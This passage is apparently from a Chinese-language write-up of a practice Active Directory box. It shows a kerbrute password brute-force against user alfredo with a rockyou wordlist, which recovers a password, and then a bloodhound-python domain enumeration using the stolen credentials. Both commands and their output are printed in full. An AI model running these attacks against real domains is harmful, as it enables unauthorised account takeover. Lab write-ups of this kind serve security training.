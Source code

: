 ## BruteUser

```
[root@kali] /home/kali/Desktop  
❯ ./kerbrute bruteuser  --dc 192.168.56.114 -d megachange.nyx /usr/share/wordlists/rockyou.txt alfredo

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/11/25 - Ronnie Flathers @ropnop

2025/03/11 11:41:04 >  Using KDC(s):
2025/03/11 11:41:04 >   192.168.56.114:88

2025/03/11 11:41:09 >  [+] VALID LOGIN:  alfredo@megachange.nyx:Password1
2025/03/11 11:41:09 >  Done! Tested 3527 logins (1 successes) in 5.049 seconds
```

得到**alfredo**的密码是**Password1**，再用**crackmapexec**看看用户，确实只有这几个。

![](./images/image-185.png)

## Bloodhound

使用**bloodhound-python**进行获取

```
[root@kali] /home/kali/Change  
❯ bloodhound-python -u alfredo -p Password1 -ns 192.168.56.114 -d megachange.nyx -c all --zip
INFO: Found AD domain: megachange.nyx
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (change.megachange.nyx:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: change.megachange.nyx
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: change.megachange.nyx
INFO: Found 6 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CHANGE.megachange.nyx
INFO: Done in 00M 00S
INFO: Compressing output into 20250311140042_bloodhound.zip
```
